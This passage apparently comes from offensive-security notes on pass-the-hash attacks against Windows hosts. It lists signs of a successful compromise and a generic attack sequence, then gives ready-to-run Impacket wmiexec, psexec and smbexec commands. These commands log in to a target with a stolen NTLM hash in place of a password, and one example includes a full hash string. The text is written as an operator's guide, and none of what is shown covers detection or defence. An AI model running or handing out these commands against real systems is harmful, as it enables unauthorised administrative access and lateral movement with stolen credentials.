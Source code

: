 **Key Success Indicators:**
- **SMBv3.0 Dialect:** Confirms SMB protocol negotiation
- **Semi-Interactive Shell:** Direct command execution capability
- **Identity Verification:** `whoami` confirms administrative context
- **System Access:** `hostname` verifies target system compromise

### Pass-the-Hash Tool Ecosystem

**Third-Party Tools and Frameworks:**
- **PsExec (Metasploit):** Metasploit framework implementation
- **Passing-the-Hash Toolkit:** Specialized PtH tool collection
- **Impacket Suite:** Python-based implementation with multiple tools
- **CrackMapExec:** Network-wide credential testing and execution

**Common Implementation Pattern:**
1. **SMB Connection:** Establish SMB connection to target system
2. **NTLM Authentication:** Authenticate using hash instead of password
3. **Service Creation:** Create Windows service (e.g., cmd.exe, PowerShell)
4. **Named Pipe Communication:** Communicate with service via Named Pipes
5. **Code Execution:** Execute commands through established service

### Impacket Pass-the-Hash Tool Suite

**WMIExec - WMI-Based Execution:**
```bash
# WMI-based remote execution
impacket-wmiexec -hashes :ntlm_hash Administrator@target

# Domain account authentication
impacket-wmiexec -hashes :ntlm_hash domain/username@target
```

**PsExec - Service-Based Execution:**
```bash
# Service-based remote execution
impacket-psexec -hashes :ntlm_hash Administrator@target

# Custom service name
impacket-psexec -hashes :ntlm_hash -service-name CustomSvc Administrator@target
```

**SMBExec - SMB-Based Execution:**
```bash
# SMB-based execution (no service creation)
impacket-smbexec -hashes :ntlm_hash Administrator@target

# Alternative to PsExec with different artifacts
impacket-smbexec -hashes :ntlm_hash domain/username@target
```

### Advanced Pass-the-Hash Techniques

**Hash Format Requirements:**
```bash
# LM:NTLM format (LM hash can be empty)
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e Administrator@target

# NTLM-only format (preferred)
impacket-wmiexec -hashes :2892d26cdf84d7a70e2eb3b9f05c425e Administrator@target
```
